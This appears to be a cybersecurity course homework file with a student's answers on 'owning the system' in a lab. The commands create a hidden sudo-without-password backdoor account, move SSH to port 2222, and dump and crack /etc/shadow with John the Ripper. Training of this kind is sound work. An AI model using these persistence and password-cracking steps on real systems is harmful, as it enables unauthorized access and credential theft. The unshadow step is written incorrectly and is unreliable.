 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - useradd sysd

2. Give your secret user a password: 
    - passwd sysd

3. Give your secret user a system UID < 1000:
    - usermod -u 900 sysd

4. Give your secret user the same GID:
   - groupmod -g 900 sysd

5. Give your secret user full `sudo` access without the need for a password:
   -  visudo
      sysd ALL=(ALL) NOPASSWD:ALL

6. Test that `sudo` access works without your password:

    sudo -l

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

   Port 2222

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - sudo service ssh restart

2. Exit the `root` account:
    - exit

3. SSH to the target machine using your `sysd` account and port `2222`:
    - ssh sysd@192.168.6.105 -p 2222

4. Use `sudo` to switch to the root user:
    - sudo su

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - ssh sysd@192.168.6.105 -p 2222


2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - cat /etc/shadow >>shadow.txt
      unshadow shadow.txt > passwords.txt
      john passwords.txt

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.


